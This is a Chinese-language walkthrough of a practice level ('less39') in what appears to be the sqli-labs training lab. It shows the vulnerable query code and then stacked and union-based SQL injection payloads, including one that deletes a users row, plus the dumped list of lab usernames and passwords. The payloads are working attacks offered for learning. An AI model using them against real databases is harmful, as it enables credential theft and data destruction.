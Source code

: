 ```yaml
---
title: less39
url: https://www.yuque.com/u29002979/ep2zrx/zf0xrhdes1enqu02
---
```


```bash
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
```

注入方式为**数字型注入**，依旧存在**堆叠注入**  。

<a name="s6XR3"></a>

# 堆叠注入

利用堆叠注入,**删除**上一关卡我们增添的数据&#x20;
`?id=1;**delete** from users where username='duidie'--+`

查询看是否存在 发现'duidie'这条数据的账户和密码都没有了 &#x20;
`?id=-1 union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

> Your Username is : 2
> Your Password is : Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~1234,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4,admin'-- +~123456

<a name="bzYh1"></a>

# 注入点测试

`?id=1'`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

数字型注入。

<a name="PF74E"></a>

# 联合查询

```bash
判断字段数 
?id=1 order by 4--+ 
?id=1 order by 3--+

找回显点
?id=-1 union select 1,2,3--+  

爆破数据库名称
?id=-1 union select 1,2,database()--+

爆破数据库表名称
?id=-1 union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
?id=-1 union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'--+

爆破字段内容
?id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```
